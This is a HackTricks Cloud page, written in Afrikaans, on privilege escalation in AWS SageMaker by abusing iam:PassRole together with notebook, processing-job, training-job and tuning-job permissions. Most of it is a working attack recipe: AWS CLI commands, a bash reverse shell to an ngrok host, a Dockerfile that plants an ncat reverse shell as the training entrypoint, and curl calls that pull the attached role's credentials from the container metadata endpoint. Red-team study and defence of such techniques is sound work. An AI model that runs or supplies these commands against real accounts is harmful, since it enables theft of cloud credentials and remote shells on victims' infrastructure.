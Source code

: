 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Begin om 'n notaboek te skep met die IAM Rol wat daaraan gekoppel is:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die antwoord moet 'n `NotebookInstanceArn` veld bevat, wat die ARN van die nuut geskepte notaboekinstansie sal bevat. Ons kan dan die `create-presigned-notebook-instance-url` API gebruik om 'n URL te genereer wat ons kan gebruik om toegang te verkry tot die notaboekinstansie sodra dit gereed is:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigeer na die URL met die blaaier en klik op \`Open JupyterLab\` in die boonste regterkant, scroll dan af na die “Launcher” tab en onder die “Other” afdeling, klik op die “Terminal” knoppie.

Nou is dit moontlik om toegang te verkry tot die metadata geloofsbriewe van die IAM Rol.

**Potensiële Impak:** Privesc na die sagemaker diensrol wat gespesifiseer is.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

As daar Jupyter **notebooks reeds aan die gang is** daarop en jy kan hulle lys met `sagemaker:ListNotebookInstances` (of hulle op enige ander manier ontdek). Jy kan **'n URL vir hulle genereer, toegang tot hulle verkry, en die geloofsbriewe steel soos aangedui in die vorige tegniek**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potensiële Impak:** Privesc na die sagemaker diensrol wat aangeheg is.

### `sagemaker:CreateProcessingJob,iam:PassRole`

'n Aanvaller met daardie toestemmings kan **sagemaker 'n verwerkingswerk** laat uitvoer met 'n sagemaker rol wat daaraan geheg is. Die aanvaller kan die definisie van die houer aandui wat in 'n **AWS bestuurde ECS rekening instance** uitgevoer sal word, en **die geloofsbriewe van die IAM rol wat aangeheg is** steel.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal in staat wees om 'n opleidingswerk te skep, **wat 'n arbitrêre houer** daarop laat loop met 'n **rol aangeheg** daaraan. Daarom sal die aanvaller in staat wees om die geloofsbriewe van die rol te steel.

{% hint style="warning" %}
Hierdie scenario is moeiliker om te benut as die vorige een omdat jy 'n Docker-beeld moet genereer wat die rev shell of creds direk na die aanvaller sal stuur (jy kan nie 'n beginopdrag in die konfigurasie van die opleidingswerk aandui nie).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal (potensieel) in staat wees om 'n **hyperparameter opleidingswerk** te skep, **'n arbitrêre houer** daarop te laat loop met 'n **rol aangeheg** daaraan.\
&#xNAN;_&#x49; het nie uitgebuit nie weens die gebrek aan tyd, maar dit lyk soortgelyk aan die vorige uitbuitings, voel vry om 'n PR met die uitbuitingsbesonderhede te stuur._

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
